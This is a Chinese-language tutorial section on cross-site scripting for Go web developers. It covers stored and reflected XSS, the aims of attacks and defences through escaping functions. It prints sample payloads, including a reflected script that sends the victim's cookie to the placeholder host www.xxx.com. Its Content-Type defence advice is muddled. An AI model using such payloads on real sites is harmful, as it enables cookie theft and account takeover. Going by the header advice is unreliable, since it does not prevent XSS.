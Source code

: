 #避免XSS攻击
随着互联网技术的发展，现在的Web应用都含有大量的动态内容以提高用户体验。
所谓动态内容，就是应用程序能够根据用户环境和用户请求，输出相应的内容。
动态站点会受到一种名为“跨站脚本攻击”（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）的威胁，
而静态站点则完全不受其影响。

## 什么是XSS
XSS攻击：跨站脚本攻击(Cross-Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，
故将跨站脚本攻击缩写为XSS。
XSS是一种常见的web安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。
不同于大多数攻击(一般只涉及攻击者和受害者)，XSS涉及到三方，即攻击者、客户端与Web应用。
XSS的攻击目标是为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息。
一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。

XSS通常可以分为两大类：   
  * 存储型XSS，主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。
		应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。
		这个流程简单可以描述为:恶意用户的Html输入Web程序->进入数据库->Web程序->用户浏览器。  
 
  * 反射型XSS，主要做法是将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，
		用户点击类似的恶意链接就可能受到攻击。

XSS目前主要的手段和目的如下：

- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些
	如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

## XSS的原理
Web应用未对用户提交请求的数据做充分的检查过滤, 允许用户在提交的数据中掺入HTML代码(最主要的是“>”、“<”), 
并将未经转义的恶意代码输出到第三方用户的浏览器解释执行，是导致XSS漏洞的产生原因。

接下来以反射性XSS举例说明XSS的过程：现在有一个网站, 根据参数输出用户的名称。
例如访问url：`http://127.0.0.1/?name=astaxie`，就会在浏览器输出如下信息：
```go
hello astaxie
```
如果我们传递这样的url：
`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`,
这时你就会发现浏览器跳出一个弹出框，这说明站点已经存在了XSS漏洞。那么恶意用户是如何盗取Cookie的呢？
与上类似，如下这样的url：
`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'
+document.cookie&#60;/script&#62;`，
这样就可以把当前的cookie发送到指定的站点：www.xxx.com。
你也许会说，这样的URL一看就有问题，怎么会有人点击？
是的，这类的URL会让人怀疑，但如果使用短网址服务将之缩短，你还看得出来么？
攻击者将缩短过后的url通过某些途径传播开来, 不明真相的用户一旦点击了这样的url, 
相应cookie数据就会被发送事先设定好的站点, 这样子就盗得了用户的cookie信息，
然后就可以利用Websleuth之类的工具来检查是否能盗取那个用户的账户。

更加详细的关于XSS的分析大家可以参考这篇叫做
《[新浪微博XSS事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)》的文章

## 如何预防XSS
答案很简单，坚决不要相信用户的任何输入，并过滤掉输入中的所有特殊字符。这样就能消灭绝大部分的XSS攻击。

目前防御XSS主要有如下几种方式：
- 过滤特殊字符   
	避免XSS的方法之一主要是将用户所提供的内容进行过滤，Go语言提供了HTML的过滤函数：   
	text/template包下面的HTMLEscapeString、JSEscapeString等函数
- 使用HTTP头指定类型   
	```go
	res.Header().Set("Content-Type","text/javascript")
	```
	这样就可以让浏览器解析javascript代码，而不会是html输出。


## 总结
XSS漏洞是相当有危害的，在开发Web应用的时候，一定要记住过滤数据，特别是在输出到客户端之前，这是现在行之有效的防止XSS的手段。

